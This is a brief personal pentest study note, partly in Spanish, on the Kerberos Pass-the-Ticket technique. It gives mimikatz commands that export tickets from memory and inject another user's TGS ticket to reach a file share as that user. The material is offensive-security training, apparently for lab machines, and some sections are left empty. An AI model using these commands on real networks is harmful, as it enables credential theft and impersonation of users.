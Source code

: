 
## DESCRIPTION

In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos. We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: DESDE KALI

En este ejemplo;

![[Pasted image 20230527130456.png]]

Desde mimikatz:

```
privilege::debug
sekurlsa::tickets /export
```

![[Pasted image 20230527130247.png]]

We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension.

```
dir *.kirbi
```

we can just pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the kerberos::ptt command.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```


Lo verificamos con klist 

y ya podríamos acceder al recurso compartido como el otro usuario en este ejemplo dave.
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 